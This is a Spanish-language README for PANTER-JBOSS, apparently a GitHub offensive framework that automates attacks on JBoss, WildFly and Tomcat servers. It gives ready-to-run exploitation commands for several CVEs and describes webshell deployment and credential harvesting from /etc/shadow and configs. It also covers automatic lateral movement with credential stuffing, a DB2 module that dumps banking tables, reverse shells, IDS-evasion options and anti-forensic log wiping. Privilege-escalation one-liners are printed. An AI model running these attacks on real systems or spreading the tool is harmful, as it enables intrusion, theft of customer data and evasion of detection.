

<div align="center">
  
</div>

<div align="center">

**Framework ofensivo para JBoss / WildFly / Tomcat**

[](https://python.org)
[](https://github.com/Apo1o13/PANTER-JBOSS)
[](LICENSE)

</div>

---

## ¿Qué es PANTER-JBOSS?

Framework de explotación profesional para servidores **JBoss / WildFly / Tomcat** que automatiza el ciclo completo de ataque: detección de vulnerabilidades → explotación → post-explotación guiada → movimiento lateral → escalada de privilegios → limpieza anti-forense.

Diseñado para **Windows y Linux**. Funciona con datos reales en entornos de pentesting profesional.

> **Solo para uso en entornos con autorización explícita.**

---

## Instalación

```bash
git clone https://github.com/Apo1o13/PANTER-JBOSS.git
cd PANTER-JBOSS
pip install -r requires.txt
```

### Actualizar

```bash
cd PANTER-JBOSS && git pull origin main
```

### Requisitos opcionales

| Herramienta | Para qué |
|------------|---------|
| `hashcat` + `rockyou.txt` | Cracking GPU de hashes |
| `john` + `rockyou.txt` | Cracking CPU de hashes |
| `ysoserial.jar` en `/opt/ysoserial/` | Payloads Java Deserialization |
| `chisel` en PATH | Tunneling SOCKS5 / port forward |
| `paramiko`, `pymysql`, `psycopg2` | Credential stuffing SSH/DB |

---

## Uso rápido

```bash
# Escanear un host (modo standalone, default)
python panterjboss.py -u http://TARGET:8080

# Explotar automáticamente sin confirmación
python panterjboss.py -u http://TARGET:8080 --auto-exploit

# Solo vectores JBoss (jmx-console, web-console, invokers, admin)
python panterjboss.py -u http://TARGET:8080 --jboss

# Tomcat CVE-2017-12615 (PUT RCE)
python panterjboss.py -u http://TARGET:8080

# Solo Struts2 CVE-2017-5638
python panterjboss.py -u http://TARGET:8080 --struts2

# Solo Jenkins CLI CVE-2015-5317
python panterjboss.py -u http://TARGET:8080 --jenkins

# Deserialización Java en parámetros HTTP
python panterjboss.py -u http://TARGET/app.jsf --app-unserialize

# JMX Tomcat CVE-2016-8735
python panterjboss.py -u host:1099 --jmxtomcat

# Modo stealth (delays aleatorios + rotación de User-Agents)
python panterjboss.py -u http://TARGET:8080 --stealth

# Escaneo de red completa
python panterjboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results reporte.log

# Escaneo desde lista de hosts
python panterjboss.py -mode file-scan -file hosts.txt -out reporte.log

# Con proxy y credenciales admin-console
python panterjboss.py -u http://TARGET:8080 --proxy http://127.0.0.1:8080 --jboss-login admin:admin

# Con nombre de analista en el reporte
python panterjboss.py -u http://TARGET:8080 --analyst "Red Team Operador"
```

---

## Vectores de ataque

| Vector | Versión objetivo | CVE |
|--------|-----------------|-----|
| jmx-console | JBoss 4.x / 5.x / 6.x | — |
| web-console | JBoss 4.x | — |
| JMXInvokerServlet | JBoss 4.x / 5.x | — |
| EJBInvokerServlet | JBoss 4.x / 5.x | CVE-2013-4810 |
| readonly-invoker | JBoss 4.x / 5.x | — |
| admin-console | JBoss 5.x / 6.x | — |
| JBoss Deserialización | JBoss 4.x–6.x | CVE-2015-7501 |
| WildFly Management API | WildFly / JBoss AS7+ | — |
| Tomcat PUT RCE | Tomcat 7.x / 8.x / 9.x | CVE-2017-12615 |
| Jenkins CLI | Cualquiera | CVE-2015-5317 |
| Apache Struts2 | Cualquiera | CVE-2017-5638 |
| Java Deserialization | Cualquiera (servlet) | — |
| JMX Tomcat | Tomcat | CVE-2016-8735 |

---

## Flujo de explotación completo

```
[ Inicio ]
     │
     ▼
[ Detección de vulnerabilidades ]
  - Verifica 13 vectores en paralelo
  - Muestra: VULNERABLE / EXPUESTO / OK
     │
     ▼
[ Explotación ]  ←─ --auto-exploit (sin confirmación)
  - Despliega webshell WAR en el servidor
  - Confirma acceso vía HTTP al webshell
     │
     ▼
[ ACCESO OBTENIDO - PWNED ]
  - Muestra: id, uname -a, OS
  - Detección automática de DB2
     │
     ▼
[ MENU DE POST-EXPLOTACION ]
  ├─ [1]  Reconocimiento del sistema
  │        └─ OS, kernel, usuarios, red, procesos, crons, sudo, history
  ├─ [2]  Buscar credenciales y contraseñas
  │        └─ /etc/shadow, configs JBoss, archivos .properties/.xml
  ├─ [3]  Crackear hashes → John (rockyou.txt)
  ├─ [4]  Escaneo de red interna
  │        └─ Ping sweep + port scan (8080, 8443, 8000, 80, 22, 3306...)
  ├─ [5]  Descargar archivo del servidor
  ├─ [6]  Shell de comandos manual
  │        └─ Con confirmación en comandos sensibles
  ├─ [c]  Ver / exportar credenciales acumuladas
  ├─ [7]  CADENA DE COMPROMISO AUTOMÁTICO
  │        └─ Datasources → red interna → stuffing → JBoss laterales
  ├─ [8]  ATAQUE DB2 ESPECIALIZADO
  │        └─ Extrae creds, vuelca tablas bancarias
  ├─ [p]  PRIVILEGE ESCALATION — análisis automático (17 checks)
  ├─ [h]  HASHCAT — cracking GPU (más rápido que John)
  ├─ [r]  REVERSE SHELL / PIVOTING / CHISEL
  ├─ [9]  GENERAR REPORTE HTML
  ├─ [x]  CLEANUP — borrar rastros del servidor
  └─ [0]  Salir
```

---

## Módulos en detalle

### `[1]` Reconocimiento del sistema

Ejecuta automáticamente via webshell:

- Información del sistema operativo y kernel
- Usuarios locales (`/etc/passwd`)
- Interfaces de red y rutas
- Procesos corriendo
- Tareas cron
- Permisos sudo del usuario actual
- Historial de comandos (bash/zsh)
- Variables de entorno
- Software instalado relevante

---

### `[6]` Shell manual con confirmación de comandos sensibles

Al ejecutar comandos que implican escritura, eliminación, persistencia o descarga, el tool pide confirmación antes de ejecutar:

```
Shell> rm -rf /tmp/logs

  ╔══════════════════════════════════════════════════════╗
  ║  ATENCION — OPERACION SENSIBLE EN EL SERVIDOR        ║
  ╠══════════════════════════════════════════════════════╣
  ║  Tipo    : ELIMINACION                               ║
  ║  Accion  : Elimina archivos del servidor             ║
  ╠══════════════════════════════════════════════════════╣
  ║  Comando : rm -rf /tmp/logs                          ║
  ╚══════════════════════════════════════════════════════╝

  Confirmar ejecucion en el servidor? [s/N]: _
```

| Tipo | Ejemplos |
|------|---------|
| ELIMINACION | `rm`, `shred`, `unlink`, `truncate` |
| PERSISTENCIA | `crontab`, `authorized_keys`, `ssh-keygen` |
| USUARIO | `useradd`, `passwd` |
| SISTEMA | escritura en `/etc/`, `/root/` |
| ESCRITURA | `echo > archivo`, `tee`, `wget -O` |
| DESCARGA | `wget`, `curl -o` |
| PERMISOS | `chmod`, `chown` |
| COPIA/MOVER | `cp`, `mv` |

---

### `[p]` Escalada de privilegios automática

17 checks ejecutados vía webshell, clasificados por nivel de riesgo:

| Check | Qué busca |
|-------|-----------|
| sudo -l | Comandos sudo sin password |
| SUID | Binarios con setuid root |
| Capabilities | cap_setuid, cap_net_admin, etc. |
| Cron | Tareas programadas escribibles |
| /etc/passwd | Escribible por usuario actual |
| /etc/shadow | Legible sin privilegios |
| Docker/LXC | Usuario en grupo docker |
| NFS exports | no_root_squash habilitado |
| ld.so.preload | Escribible (privesc garantizada) |
| SSH keys | Claves privadas expuestas |
| Variables PATH | Paths peligrosos en entorno |
| Bash history | Credenciales en historial |
| Kernel | Versión con exploits conocidos |
| Servicios | Scripts de inicio escribibles |
| Writable /etc | Archivos de config modificables |
| SGID binaries | Binarios con setgid |
| World-writable | Directorios root escribibles |

Resultado:
```
  [CRITICO] SUID — find / -perm -4000 -type f 2>/dev/null
  Explotacion sugerida:
    find . -exec /bin/sh \; -quit

  [ALTO] Docker group — id | grep docker
  Explotacion sugerida:
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

---

### `[r]` Reverse Shell / Pivoting / Chisel

**Reverse shells disponibles:**

| ID | Tipo |
|----|------|
| bash | Bash -i |
| python3 | Python 3 |
| python2 | Python 2 |
| perl | Perl |
| nc_e | Netcat -e |
| nc_mkfifo | Netcat mkfifo |
| java_runtime | Java Runtime.exec |
| socat_tty | Socat TTY completa |
| ruby | Ruby |
| awk | Awk |

**Chisel Tunneling:**
```
[1] SOCKS5 proxy     → acceso completo a red interna via proxychains
[2] Port forward     → exponer puerto remoto en Kali
[3] Reverse forward  → desde víctima hacia Kali
[4] Subir chisel     → upload del binario vía HTTP server temporal
```

---

### `[h]` Hashcat GPU

- Detección automática del tipo de hash (MD5, SHA-1, SHA-256, SHA-512, NTLM, bcrypt, etc.)
- Ataque con `rockyou.txt` + reglas `best64`
- Muestra potfile con resultados ya crackeados
- Fallback a `--show` si el hash ya está en potfile

```
  ╔══════════════╦══════════════╦═════════════════════════╗
  ║   USUARIO    ║  TIPO HASH   ║        PASSWORD         ║
  ╠══════════════╬══════════════╬═════════════════════════╣
  ║ root         ║ SHA-512      ║ toor                    ║
  ║ jboss        ║ MD5          ║ jboss123                ║
  ╚══════════════╩══════════════╩═════════════════════════╝
```

---

### `[7]` Cadena de Compromiso Automático

Una vez comprometido el primer servidor, el motor se expande solo por la red interna:

```
JBoss comprometido
      │
      ▼
[PASO 1] Extrae datasources
   (*-ds.xml, standalone.xml, login-config.xml, *.properties)
      │
      ├─ DB2 detectado → Ataque DB2 automático
      │
      ▼
[PASO 2] Extrae credenciales de la aplicación
      │
      ▼
[PASO 3] Escaneo de red interna
   (ping sweep + port scan — detecta JBoss, Tomcat, WildFly)
      │
      ▼
[PASO 4] Credential stuffing en servicios detectados
   SSH / MySQL / PostgreSQL / Oracle / MSSQL
   Redis / MongoDB / SMB / Tomcat Manager / JBoss Admin / FTP
      │
      ▼
[PASO 5] JBoss/Tomcat internos vulnerables → explotación lateral
      │
      ▼
  ╔══════════════════════════════════════════╗
  ║   MAPA DE INFRAESTRUCTURA COMPROMETIDA  ║
  ╚══════════════════════════════════════════╝

  [PWNED] http://172.29.5.61:8080 via jmx-console
      ├─ [PWNED] 172.29.5.10:3306 via Credencial datasource
      │       ├── cred: admin:P@ssw0rd [MySQL dump]
      │       └── cred: john:welcome1  [MySQL dump]
      ├─ [PWNED] 172.29.5.22:22 via Credential stuffing → ssh
      └─ [PWNED] http://172.29.5.80:8080 via jmx-console (lateral)
```

---

### `[8]` Ataque DB2 Especializado

Módulo dedicado para entornos bancarios y de lotería con bases de datos IBM DB2.

- Lee `login-config.xml` y cruza security-domains con datasources
- Parsea `standalone.xml` (WildFly / JBoss AS7+)
- Grep directo en directorios de configuración como fallback
- Verifica conectividad TCP antes de intentar conexión
- Intenta conexión por DB2 CLI → JDBC → Python `ibm_db`
- Tablas objetivo: `USERS`, `CLIENTES`, `OPERADORES`, `CUENTAS`, `TRANSACCIONES`

---

### `[x]` Cleanup — Borrar rastros

> El cleanup **nunca se ejecuta automáticamente**. Solo se activa si el operador lo selecciona manualmente.

```
[1] Limpieza completa (todos los pasos con confirmación)
[2] Borrar WARs y webshells desplegados
[3] Undeploy limpio via WildFly Management API
[4] Borrar archivos temporales en /tmp
[5] Truncar bash/zsh history en todos los usuarios
[6] Limpiar logs de aplicación (JBoss/WildFly)
[7] Limpiar logs de sistema (/var/log)
[v] Verificar que no queden artefactos activos
[i] Configurar IP de Kali para limpieza quirúrgica de logs
```

**Limpieza quirúrgica:** usa `sed -i '/IP/d'` para borrar solo las líneas que contienen tu IP en los logs, sin truncar el archivo completo (menos sospechoso forense).

Al completar genera un certificado con timestamp:
```
cleanup_certificate_20260430_143022.txt
```

---

### `[9]` Reporte HTML

Genera un reporte profesional con:

- Tarjetas de resumen (hosts escaneados, vulnerabilidades, credenciales)
- Mapa SVG de topología de red comprometida
- Tabla de vulnerabilidades encontradas con vector y estado
- Lista de hosts comprometidos con método y credenciales
- Evidencias capturadas durante la sesión
- Sección de remediación y referencias

---

### `[c]` Credenciales acumuladas

Durante toda la sesión, PANTER-JBOSS acumula automáticamente cada credencial encontrada (JBoss admin, shadow, datasources, DB2, credential stuffing). Opción `[c]` del menú:

- Muestra tabla completa: HOST / USUARIO / PASSWORD / MÉTODO
- Exporta a archivo `.txt` con timestamp

```
  ╔═══════════════════╦══════════╦═══════════════╦══════════════════════╗
  ║       HOST        ║ USUARIO  ║   PASSWORD    ║       METODO         ║
  ╠═══════════════════╬══════════╬═══════════════╬══════════════════════╣
  ║ 172.30.4.81:8080  ║ admin    ║ admin         ║ JBoss Admin Console  ║
  ║ 172.30.4.10:50000 ║ db2inst1 ║ P@ssw0rd1     ║ DB2 dump (USERS)     ║
  ║ 172.30.4.22:22    ║ oracle   ║ P@ssw0rd1     ║ Credential stuffing  ║
  ╚═══════════════════╩══════════╩═══════════════╩══════════════════════╝
```

---

## Modo Stealth `--stealth`

- Delays aleatorios entre requests (1–5 segundos)
- Rotación automática de 17 User-Agents distintos
- Menor probabilidad de activar alertas en WAF / IDS / SIEM

---

## Detección automática al obtener shell

Apenas se obtiene acceso, PANTER-JBOSS ejecuta automáticamente:

- Reconocimiento rápido: `id`, `uname -a`, versión de OS
- Búsqueda de datasources DB2 en rutas típicas JBoss/JEE
- Si encuentra DB2 → lanza ataque especializado automáticamente

Al ejecutar comandos via webshell, detecta y tabula automáticamente:

- `/etc/passwd` → tabla USUARIO / UID / HOME / SHELL
- `/etc/shadow` → tabla USUARIO / HASH / TIPO
- Configs JBoss → tabla FUENTE / USUARIO / PASSWORD

---

## Referencia de opciones

```
Objetivo:
  -u / -host HOST         Host objetivo (http://ip:puerto)
  -mode MODE              standalone | auto-scan | file-scan (default: standalone)
  -network CIDR           Red a escanear en modo auto-scan (ej: 192.168.0.0/24)
  -ports PORTS            Puertos a escanear (ej: 8080,80,8443)
  -file FILE              Archivo con lista de hosts para file-scan
  -results FILE           Archivo de resultados para auto-scan
  -out FILE               Archivo de resultados para file-scan

Vectores (sin flag = todos excepto los opcionales):
  --jboss                 Solo vectores JBoss (jmx, web-console, invokers, admin)
  --jenkins               Solo Jenkins CLI (CVE-2015-5317)
  --struts2               Solo Apache Struts2 (CVE-2017-5638)
  --app-unserialize       Deserialización en parámetros HTTP
  --servlet-unserialize   Deserialización en Servlets
  --jmxtomcat HOST:PORT   JMX Tomcat (CVE-2016-8735) en host:puerto RMI

Explotación:
  --auto-exploit          Explotar automáticamente sin pedir confirmación
  --jboss-login U:P       Credenciales para admin-console (default: admin:admin)
  --gadget GADGET         Gadget para Java Deserialization
  --load-gadget FILE      Gadget personalizado desde archivo

Evasión:
  --stealth               Delays aleatorios + rotación de User-Agents
  --proxy URL             Proxy HTTP (http://proxy:puerto)
  --proxy-cred U:P        Credenciales del proxy

Post-explotación:
  --reverse-host IP:PORT  IP y puerto para reverse shell
  --cmd COMANDO           Ejecutar comando específico y salir
  --dns URL               DNS callback para exfiltración
  --windows               Adaptar payloads para objetivo Windows
  --post-parameter PARAM  Parámetro para deserialización en POST
  --show-payload          Mostrar payload generado antes de enviar

Otros:
  --analyst NOMBRE        Nombre del analista en el reporte HTML
  --timeout SEGUNDOS      Timeout de conexión (default: 3)
  --cookies NAME=VALUE    Cookies para autenticación
  -D / --disable-check-updates  No verificar actualizaciones al iniciar
  --version               Mostrar versión
```

---

## Estructura del proyecto

```
PANTER-JBOSS/
├── panterjboss.py      # Motor principal: detección, explotación, shell HTTP
├── _exploits.py        # CVE-2015-7501, CVE-2013-4810, CVE-2017-12615, WildFly
├── _postexploit.py     # Menú guiado de post-explotación
├── _chainpwn.py        # Cadena de compromiso + credential stuffing (11 protocolos)
├── _privesc.py         # Escalada de privilegios automática (17 checks)
├── _pivot.py           # Reverse shells (10 tipos) + Chisel tunneling
├── _cleanup.py         # Anti-forense: limpieza de WAR/JSP/logs/history
├── _db2support.py      # Ataque especializado IBM DB2
├── _reporter.py        # Generador de reportes HTML
├── _updates.py         # Verificación de actualizaciones
├── requires.txt        # Dependencias Python
├── assets/
│   └── logo.png        # Logo gráfico
└── util/
    ├── panterws.war    # Webshell para jmx-console / web-console / admin-console
    └── panterss.war    # Webshell para JMXInvokerServlet
```

---

<div align="center">

**Analista:** Apo1o13 &nbsp;|&nbsp; **Version:** 1.3.0 &nbsp;|&nbsp; **Solo para uso autorizado**

</div>
